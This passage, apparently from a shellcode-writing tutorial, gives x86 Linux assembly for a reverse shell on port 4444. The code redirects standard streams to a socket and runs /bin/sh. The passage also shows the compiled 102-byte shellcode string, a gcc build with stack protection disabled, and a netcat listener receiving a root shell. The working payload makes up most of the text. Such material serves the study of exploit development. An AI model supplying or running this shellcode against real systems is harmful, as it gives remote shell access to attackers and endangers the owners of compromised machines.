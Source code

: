 ```nasm
	sub ecx, 0x05050505	; ... and then substract value 5 from every place
	push ecx		; pushing TARGET address to the stack
	push word 0x5c11	; PORT = 4444 (change reverse hex value for different port)
	push word 2		; AF_INET = 2
	mov ecx, esp		; directing the stack pointer to address struct arguments
	
	push 16			; socklen_t addrlen (size) = 16
	push ecx		; const struct sockaddr *addr - stack pointer with struct arguments	
	push edx		; reverse_socket pointer
	mov ecx, esp		; directing the stack pointer to sys_bind() function arguments
	int 128			; syscall execution
sys_dup2:
	mov al, 63		; syscall - dup2
	mov ebx, edx		; overwriting the reverse_socket pointer
	xor ecx, ecx		; STDIN - 0 (null)
	int 128			; syscall execution
	mov al, 63		; syscall - dup2
	mov cl, 1		; STDOUT - 1
	int 128			; syscall execution
	mov al, 63		; syscall - dup2
	mov cl, 2		; STDERR - 2
	int 128			; syscall execution
sys_execve:
	mov al, 11		; syscall - execve
	xor esi, esi
	push esi		; pushing 0 (null)

	push 0x68732f6e		; pushing "n/sh"
	push 0x69622f2f		; pushing "//bi"

	mov ebx, esp		; directing the stack pointer to sys_execve() string argument
	xor ecx, ecx		; char *const envp[] = 0 (null)
	xor edx, edx		; char *const argv[] = 0 (null)
	int 128			; syscall execution
```
<p style="text-align: justify;">We compile, link, put the result in shellcode.c wrapper and run to check how it works.</p>

```sh
$ ./compile.sh reverse-shell
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x31\xf6\x56\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb0\x66\xb3\x03\x56\xb9\x84\x05\x05\x06\x81\xe9\x05\x05\x05\x05\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xf6\x56\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"

$ vim shellcode.c
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode 
Shellcode Length:  102
```
Second terminal:
```sh
$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 45811)
whoami
root
```
<p style="text-align: justify;">Excellent, it works how it should. Our shellcode will therefore be:</p>
